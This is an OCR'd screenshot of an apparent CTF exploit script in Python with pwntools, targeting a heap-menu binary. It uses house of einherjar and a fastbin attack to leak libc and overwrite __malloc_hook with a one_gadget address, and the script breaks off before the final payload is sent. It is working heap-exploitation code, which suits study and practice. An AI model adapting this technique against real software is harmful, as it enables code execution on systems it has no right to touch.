 ```python
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('Your choice :', str(1))
	sla('Size:', str(size))
	sa('Data:', data)

def rm(idx):
	sla('Your choice :', str(2))
	sla('Index:', str(idx))


def dp():
	sla('Your choice :', str(3))

#def q():
#	sla(':', str(5))	

#--------------------------Exploit--------------------------
def exploit():
	ad(0x80, 'A' * 0x80) # idx 0
	ad(0x80, 'B' * 0x80) # idx 1
	ad(0x68, 'C' * 0x68) # idx 2
	ad(0xF0, 'E\n')      # idx 3
	ad(0x68, 'F\n') #for avoid merge to top chunk
	rm(2)
	# use house of einherjar
	p = 'C' * 0x60
	p += p64(0x190) 
	ad(0x68, p)

	rm(2) #for fastbin attack, now make it in fastbin
	# trigger house of eiherjar
	rm(0)
	rm(3)
	# leak main_arena
	ad(0x80, 'A' * 16 + '\n')
	dp()
	main_arena = u64(ru('\x7f')[-5:] + '\x7f\x00\x00') - 0x58
	libc_base = main_arena - 0x3c4b20
	li('main_arena ' + hex(main_arena))
	li('libc_base ' +  hex(libc_base))
	# fastbin attack to malloc_hook - 0x23
	p = '\x00' * 0x80
	p += p64(0)
	p += p64(0x71)
	p += p64(main_arena - 0x33)
	p += '\n'
	ad(0xA0, p)
	
	ad(0x68, '\n') #for ajust fastbin
	#modify malloc_hook
	realloc_addr = libc_base + lib.sym['realloc']
	li('realloc_addr ' +  hex(realloc_addr))
	gadget = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
	one_gadget = libc_base + gadget[3]
	p = '\x11' * (0x13 - 8)
	p += p64(one_gadget)
	#mallok_hook then call realloc for banance stackthen call one_gadget
```